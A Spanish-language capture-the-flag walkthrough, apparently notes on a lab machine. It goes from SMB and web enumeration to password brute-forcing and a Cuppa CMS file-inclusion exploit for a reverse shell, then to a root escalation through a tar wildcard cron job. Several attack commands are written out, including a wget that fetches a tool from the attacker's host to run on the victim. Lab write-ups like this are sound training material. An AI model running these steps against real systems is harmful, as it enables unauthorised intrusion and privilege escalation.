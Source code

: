 - Empezamos enumerando los puertos con ==nmap==, teniendo los puertos 139, 80, 445, 143, 110 y 22, siendo el 445 de importancia ya que es un puerto donde se ejecuta ==samba==.
- Ahora usamos ==gobuster== para encontrar algún directorio.
- Podemos ver que se ejecuta tambien ==smbd== así que vamos a usar ==smbclient==
```
smbclient -L (IP_VICTIMA)
```


![](../Imagenes/Pasted%20image%2020250125193854.png)

- Vamos a ver el directorio ==anonymous==. Para eso utilizamos el siguiente comando:
```
smbclient //(IP_VICTIMA)/(NOMBRE_DIRECTORIO)
```


![](../Imagenes/Pasted%20image%2020250125194134.png)

- Estamos dentro a ese recurso.
- Para listar usamos el comando `dir`

![](../Imagenes/Pasted%20image%2020250125194220.png)

- Ahora sabemos que tenemos a nuestra disposición esta información por el recurso ==anonymous==.
- Ahora, vamos a descargar todos los archivos de ese recurso con el siguiente comando:
```
smbget -R smb://(IP_VICTIMA)/(RECURSO)
```
- Si no resulta este comando usamos solo el comando `get.

![](../Imagenes/Pasted%20image%2020250125200725.png)

- Descargamos un archivo con contraseñas.
- Gobuster nos arrojo una pagina de correos.

![](../Imagenes/Pasted%20image%2020250125201111.png)

- Ya que tenemos la contraseña y un posible usuario, vamos a usar burpsuite para entrar.

![](../Imagenes/Pasted%20image%2020250125201400.png)

- Ahora nos vamos al terminal y usamos ==hydra==.

![](../Imagenes/Pasted%20image%2020250125202020.png)

- La primera parte después del " es la URL que cambia cuando nos equivocamos con la contraseña.

![](../Imagenes/Pasted%20image%2020250125202133.png)

- Ya tenemos credenciales.
- Ya dentro y con esta password

![](../Imagenes/Pasted%20image%2020250125202457.png)

- Podemos entrar al smb.
```
smbclient -U (NOMBRE_USUARIO) //(IP_VICTIMA)/(RECURSO)
```


![](../Imagenes/Pasted%20image%2020250125202808.png)

- Buscando encontramos este directorio

![](../Imagenes/Pasted%20image%2020250125203333.png)

- Así que vamos a enumerar rutas bajo esta ruta.
- Usamos ==gobuster==
```
gobuster dir -u http://10.10.33.74/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -r
```
- Tenemos otro directorio.

![](../Imagenes/Pasted%20image%2020250125203712.png)


![](../Imagenes/Pasted%20image%2020250125203738.png)

- Tenemos 2 posibles credenciales.
- En este caso ninguna de las que ya tenemos funciona.
- Vamos a buscar un sploit que nos funciona.
- Vamos a la pagina exploit-db.com
- Buscamos por Cuppa.

![](../Imagenes/Pasted%20image%2020250125204037.png)

-  El exploit nos muestra 2 formas posibles de explotarlo

![](../Imagenes/Pasted%20image%2020250125204517.png)

- Siendo el primero que nos permite ejecutar programas de la maquina atacante desde la maquina victima y el segundo si ponemos /alerts hacia adelante en la URL nos permite visualizar el archivo passwd donde podremos sacar algunas credenciales.
- En este caso vamos a seleccionar la primera.
- Vamos a hacer un one liner (reverse) con nano.
- Ya creado, con python levantamos un servidor web.
```
python3 -m http.server 80
```
- Ya creado, copiamos la primera ruta y la pegamos en el URL

![](../Imagenes/Pasted%20image%2020250125205826.png)

- Ya estamos dentro.

![](../Imagenes/Pasted%20image%2020250125210457.png)

- Vamos a usar la herramienta ==LinPEAS== vamos a buscar vulnerabilidades en la maquina.
- Como vemos que la maquina victima es x64 tenemos que descargarnos la herramienta para esa maquina.

![](../Imagenes/Pasted%20image%2020250125210904.png)

- Ahora tenemos que subir el ejecutable con python.
- Para pasarlo, desde la maquina victima usamos el siguiente comando:
```
wget http://(IP_ATACANTE):(PUERTO)/(NOMBRE_ARCHIVO)
```
==Se recomienda descargarlo en el fichero /tmp ya que es menos conflictivo al momento de pasarse archivos.==


![](../Imagenes/Pasted%20image%2020250125211518.png)

- Le damos permiso de ejecución.
- Ejecutamos
```
./lin
```

![](../Imagenes/Pasted%20image%2020250125212258.png)

- Vamos a utilizar esto que nos dice que cada 1 minutos se ejecuta backup.sh en usuario root.
- Hay que acceder a esa ruta.

![](../Imagenes/Pasted%20image%2020250125212418.png)

![](../Imagenes/Pasted%20image%2020250125212455.png)

- Ya que podemos ver el ejecutable vamos a usar `cat` para leer el ejecutable.

![](../Imagenes/Pasted%20image%2020250125212616.png)

- Como podemos ver:
	- Nos crea un /bin/bash.
	- Se mueve a la carpeta /html
	- Usa `tar` que sirve para extraer los archivos acompañado de `cf` que agrupa varios archivos en un archivo comprimido que en este caso seria backup.tgz
- Ahora es la escala de privilegios.
- Para explicar esto nos meteremos a esta pagina: https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/
- Vamos a ocupar este método.

![](../Imagenes/Pasted%20image%2020250125213519.png)

- La segunda línea y tercera.
- Estos archivos lo tenemos que crear en /var/www/html

![](../Imagenes/Pasted%20image%2020250125213737.png)


![](../Imagenes/Pasted%20image%2020250125213838.png)


- Ahora nos creamos un archivo shell.sh con nano.
- Agregamos este comando.

![](../Imagenes/Pasted%20image%2020250125214718.png)


![](../Imagenes/Pasted%20image%2020250125215417.png)

